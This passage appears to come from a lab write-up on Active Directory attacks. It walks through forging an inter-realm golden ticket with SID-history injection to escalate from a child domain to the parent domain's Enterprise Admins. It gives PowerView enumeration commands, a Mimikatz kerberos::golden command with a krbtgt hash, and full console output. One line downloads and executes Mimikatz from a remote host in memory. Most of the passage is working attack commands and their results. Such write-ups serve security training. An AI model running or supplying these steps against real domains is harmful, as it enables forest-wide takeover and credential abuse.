 armed with this, i can then forge the inter-realm TGT. an inter-realm TGT is a special ticket given by a domain controller to a user attempting to access a service in a trusted domain. this TGT is encrypted with a shared key that both domains have agreed upon. the TGT is presented to the DC of the trusted domain to get a service ticket (TGS). once the inter-realm TGT is validated, the DC issues a TGS, that then grants the user access to the server. you can read more about Microsoft's Trust Technologies [here](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc759554(v=ws.10)?redirectedfrom=MSDN).


using PowerView, i can enumerate the domain SID and Enterprise Admins SID:

```sh
Get-DomainSID
Get-NetGroupMember -GroupName "Enterprise Admins" –Domain cosmos.local
```

```sh
PS C:\ad\tools>
PS C:\ad\tools> Get-Domainsid
S-1-5-21-771755520-687805270-358672322
PS C:\ad\tools> Get-NetGroupMember -GroupName "enterprise admins" -Domain cosmos.local

GroupDomain   : cosmos.local
GroupName     : Enterprise Admins
MemberDomain  : cosmos.local
MemberName    : Administrator
MemberSID     : S-1-5-21-1458491649-1432147247-1990877046-500
IsGroup       : False
MemberDN      : CN=Administrator,CN=Users,DC=cosmos,DC=local
```

i can then forge my inter-realm TGT. 

```sh
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:nebula.cosmos.local /sid:<sid of the current domain> /sids:<SID of the Enterprise Admins group of parent domain> /krbtgt:<hash> /ticket: C:<path>"'
```

```sh
PS C:\ticket> iex (iwr http://172.16.10.1/invoke-mimikatz.ps1 -usebasicparsing)
PS C:\ticket> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:nebula.cosmos.local /sid:S-1-5-21-771755520-687805270-358672322 /sids:S-1-5-21-1458491649-1432147247-1990877046-500 /krbtgt:a3a127f4537798da6586372093fdffb4 /ticket: C:\ticket\krbtgt_tkt.kirbi"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ /
 ## / \ ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcosmos.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # kerberos::golden /user:Administrator /domain:nebula.cosmos.local /sid:S-1-5-21-771755520-687805270-358672322 /sids:S-1-5-21-1458491649-1432147247-1990877046-500 /krbtgt:a3a127f4537798da6586372093fdffb4 /ticket: C:\ticket\krbtgt_tkt.kirbi
User      : Administrator
Domain    : nebula.cosmos.local (NEBULA)
SID       : S-1-5-21-771755520-687805270-358672322
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-1458491649-1432147247-1990877046-500 ;
ServiceKey: a3a127f4537798da6586372093fdffb4 - rc4_hmac_nt
Lifetime  : 7/3/2024 3:15:08 PM ; 7/1/2031 3:15:08 PM ; 7/1/2031 3:15:08 PM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
```